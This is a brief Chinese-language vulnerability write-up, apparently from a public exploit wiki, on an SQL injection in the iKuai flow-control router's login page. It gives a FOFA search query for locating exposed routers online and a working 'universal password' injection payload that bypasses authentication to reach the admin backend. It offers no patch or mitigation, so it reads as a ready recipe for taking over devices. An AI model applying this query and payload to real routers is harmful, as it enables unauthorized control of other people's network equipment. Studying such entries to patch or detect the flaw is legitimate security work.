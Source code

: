 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

> [!NOTE]
>
> iKuai 流控路由

## FOFA

> [!NOTE]
>
> title="登录爱快流控路由"

## 漏洞复现

登录页面如下

![image-20210531180103698](http://wikioss.peiqi.tech/vuln/image-20210531180103698.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用万能密码登录后台

```
user: "or""=""or""="
pass: 空
```

![image-20210531180212296](http://wikioss.peiqi.tech/vuln/image-20210531180212296.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)